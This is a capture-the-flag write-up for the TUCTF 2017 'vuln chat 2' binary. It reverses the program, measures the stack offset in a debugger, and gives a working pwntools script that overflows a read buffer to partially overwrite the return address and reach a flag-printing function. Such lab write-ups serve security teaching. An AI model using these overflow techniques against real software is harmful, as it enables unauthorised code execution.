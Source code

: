 # Tuctf 2017 vuln chat 2

This was done on `Ubuntu 20.04.4 LTS`. The goal for this challenge is to print the contents of `flag.txt`, not pop a shell.

Let's take a look at the binary:

```
$    file vuln-chat2.0
vuln-chat2.0: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=093fe7a291a796024f450a3081c4bda8a215e6e8, not stripped
$    pwn checksec vuln-chat2.0
[*] '/Hackery/pod/modules/partial_overwrite/tuctf17_vulnchat2/vuln-chat2.0'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
$    ./vuln-chat2.0
----------- Welcome to vuln-chat2.0 -------------
Enter your username: guyinatuxedo
Welcome guyinatuxedo!
Connecting to 'djinn'
--- 'djinn' has joined your chat ---
djinn: You've proven yourself to me. What information do you need?
guyinatuxedo: 15935728
djinn: Alright here's you flag:
djinn: flag{1_l0v3_l337_73x7}
djinn: Wait thats not right...
```

So we can see we are dealing with a `32` bit binary, with a Non-Executable stack. When we run it, we see it first prompts us for a username. After that it prompts us for information we need. After that it prints a flag, but it isn't the one we need.

## Reversing

When we look at the main function in Ghidra, we see this:

```
/* WARNING: Function: __x86.get_pc_thunk.bx replaced with injection: get_pc_thunk_bx */

undefined4 main(void)

{
  setvbuf(stdout,(char *)0x0,2,0x14);
  doThings();
  return 0;
}
```

So we can see here, it essentially just calls `doThings`:

```

/* WARNING: Function: __x86.get_pc_thunk.bx replaced with injection: get_pc_thunk_bx */

void doThings(void)

{
  undefined inp1 [20];
  undefined inp0 [15];
 
  puts("----------- Welcome to vuln-chat2.0 -------------");
  printf("Enter your username: ");
  __isoc99_scanf(&DAT_08048798,inp0);
  printf("Welcome %s!\n",inp0);
  puts("Connecting to \'djinn\'");
  sleep(1);
  puts("--- \'djinn\' has joined your chat ---");
  puts("djinn: You\'ve proven yourself to me. What information do you need?");
  printf("%s: ",inp0);
  read(0,inp1,0x2d);
  puts("djinn: Alright here\'s you flag:");
  puts("djinn: flag{1_l0v3_l337_73x7}");
  puts("djinn: Wait thats not right...");
  return;
}


```

We can see that the value of `DAT_08048798` is `%15s`:

```
                             DAT_08048798                                    XREF[2]:     doThings:0804858f(*),
                                                                                          doThings:08048595(*)  
        08048798 25              ??         25h    %
        08048799 31              ??         31h    1
        0804879a 35              ??         35h    5
        0804879b 73              ??         73h    s
        0804879c 00              ??         00h
```

So we can see it essentially prompts us for input twice (in addition to printing out a lot of text). The first time it prompts us for input, it scans in `15` bytes worth of data into `inp0`, which holds `15` bytes worth of data (no overflow here). The second scan scans in `0x2d` bytes worth of data into `inp1` which holds `20` bytes of data, so we have an overflow. Let's see what the offset is from the start of our input to the saved return address is:

```
────────────────────────────────────────────────────────────────────────────────────── registers ────
$eax   : 0x1f      
$ebx   : 0x08049b08  →  0x08049a18  →  0x00000001
$ecx   : 0xf7fb7010  →  0x00000000
$edx   : 0x1f      
$esp   : 0xffffd0c0  →  0x08048870  →  "djinn: Wait thats not right..."
$ebp   : 0xffffd0ec  →  0xffffd0f8  →  0x00000000
$esi   : 0xf7fb5000  →  0x001dbd6c
$edi   : 0xf7fb5000  →  0x001dbd6c
$eip   : 0x08048635  →  <doThings+218> add esp, 0x4
$eflags: [ZERO carry PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0023 $ss: 0x002b $ds: 0x002b $es: 0x002b $fs: 0x0000 $gs: 0x0063
────────────────────────────────────────────────────────────────────────────────────────── stack ────
0xffffd0c0│+0x0000: 0x08048870  →  "djinn: Wait thats not right..."     ← $esp
0xffffd0c4│+0x0004: 0x393531f8
0xffffd0c8│+0x0008: 0x32373533
0xffffd0cc│+0x000c: 0xffff0a38  →  0x00000000
0xffffd0d0│+0x0010: 0x08049b08  →  0x08049a18  →  0x00000001
0xffffd0d4│+0x0014: 0xf7fb5000  →  0x001dbd6c
0xffffd0d8│+0x0018: 0x79756700
0xffffd0dc│+0x001c: "inatuxedo"
──────────────────────────────────────────────────────────────────────────────────── code:x86:32 ────
    0x8048625 <doThings+202>   inc    DWORD PTR [ebx-0x7c72fb3c]
    0x804862b <doThings+208>   push   0x50ffffed
    0x8048630 <doThings+213>   call   0x8048400 <puts@plt>
 →  0x8048635 <doThings+218>   add    esp, 0x4
    0x8048638 <doThings+221>   mov    ebx, DWORD PTR [ebp-0x4]
    0x804863b <doThings+224>   leave  
    0x804863c <doThings+225>   ret    
    0x804863d <main+0>         push   ebp
    0x804863e <main+1>         mov    ebp, esp
──────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "vuln-chat2.0", stopped, reason: BREAKPOINT
────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x8048635 → doThings()
[#1] 0x8048668 → main()
─────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  search-pattern 15935728
[+] Searching '15935728' in memory
[+] In '[stack]'(0xfffdd000-0xffffe000), permission=rw-
  0xffffd0c5 - 0xffffd0cd  →   "15935728[...]"
gef➤  i f
Stack level 0, frame at 0xffffd0f4:
 eip = 0x8048635 in doThings; saved eip = 0x8048668
 called by frame at 0xffffd100
 Arglist at 0xffffd0ec, args:
 Locals at 0xffffd0ec, Previous frame's sp is 0xffffd0f4
 Saved registers:
  ebx at 0xffffd0e8, ebp at 0xffffd0ec, eip at 0xffffd0f0
```

So we can see that the offset is `0xffffd0f0 - 0xffffd0c5 = 0x2b`. Since our input is `0x2d` bytes, this means we can overwrite `0x2d - 0x2b = 0x2` bytes of the saved return address.

Also we can see that there is a function at `0x8048672` called `printFlag`, that if we call it we will get the flag:

```
/* WARNING: Function: __x86.get_pc_thunk.bx replaced with injection: get_pc_thunk_bx */

void printFlag(void)

{
  puts("Ah! Found it");
  system("/bin/cat ./flag.txt");
  puts("Don\'t let anyone get ahold of this");
  return;
}
```

## Exploitation

So we will be doing a partial overwrite. In this case, we will only be overwriting the least significant byte of the return address. When we looked at the saved return address, we saw that it was equal to `0x8048668`. The function we are trying to call (`printFlag`) is at `0x8048672`. Since the only difference between the two addresses is the least significant byte (which we will overwrite to be `0x`72), we only need to overwrite that to call `printFlag`.

Also even though we don't have to deal with address randomization in this challenge thanks to there not being PIE, a lot of the time that is where partial overwrites come in handy. That is because since the base address usually ends in a null byte (or multiple) the randomization doesn't apply to the lower bytes. So if we overwrite the lower bytes, it gives us a range that we can jump to without an infoleak.

## Exploit

Putting it all together, we have the following exploit:

```
#Import pwntools
from pwn import *

#Establish the target
target = process('vuln-chat2.0')
#gdb.attach(target, gdbscript = 'b *0x8048608')

#Print out the text up to the username prompt
print(target.recvuntil('Enter your username: '))

#Send the username, doesn't really matter
target.sendline(b'guyinatuxedo')

#Print the text up to the next prompt
print(target.recvuntil(b'guyinatuxedo: '))

#Construct the payload, and send it
payload = b"0"*0x2b + b"\x72"
target.send(payload)

#Drop to an interactive shell
target.interactive()
```

When we run it:

```
$   python3 exploit.py 
[!] Could not find executable 'vuln-chat2.0' in $PATH, using './vuln-chat2.0' instead
[+] Starting local process './vuln-chat2.0': pid 5058
exploit.py:9: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  print(target.recvuntil('Enter your username: '))
b'----------- Welcome to vuln-chat2.0 -------------\nEnter your username: '
b"Welcome guyinatuxedo!\nConnecting to 'djinn'\n--- 'djinn' has joined your chat ---\ndjinn: You've proven yourself to me. What information do you need?\nguyinatuxedo: "
[*] Switching to interactive mode
djinn: Alright here's you flag:
djinn: flag{1_l0v3_l337_73x7}
djinn: Wait thats not right...
Ah! Found it
flag{g0ttem_b0yz}
Don't let anyone get ahold of this
[*] Got EOF while reading in interactive
$  
```

Just like that, we got the flag!
